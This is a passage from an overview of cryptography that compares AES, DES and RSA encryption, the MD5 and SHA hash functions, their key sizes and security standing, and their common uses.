- **Symmetric Encryption (AES, DES)**: Uses the same key for encryption and decryption. Faster and more efficient but requires secure key distribution.
- **Asymmetric Encryption (RSA)**: Uses a pair of keys (public and private). Slower but does not require secure key distribution.

### Hash Functions (MD5, SHA)

- **MD5**: Produces a 128-bit hash value. Considered insecure due to vulnerabilities to collision attacks.
- **SHA**: Produces hash values of varying sizes (160, 224, 256, 384, 512 bits). SHA-2 and SHA-3 are considered secure.

### Key Sizes and Security

- **AES**: Supports key sizes of 128, 192, and 256 bits. Considered secure.
- **DES**: Uses a 56-bit key. Considered insecure.
- **RSA**: Key sizes range from 1024 to 4096 bits. Considered secure with sufficiently large key sizes.

### Use Cases

- **AES**: Widely used for encrypting sensitive data, such as files, communications, and storage.
- **DES**: Historically used for encrypting data but is now considered insecure.
- **MD5**: Used for checksums and data integrity verification but is considered insecure for cryptographic purposes.
- **SHA**: Used for data integrity verification, digital signatures, and password storage.
- **RSA**: Used for secure data transmission, digital signatures, and key exchange.
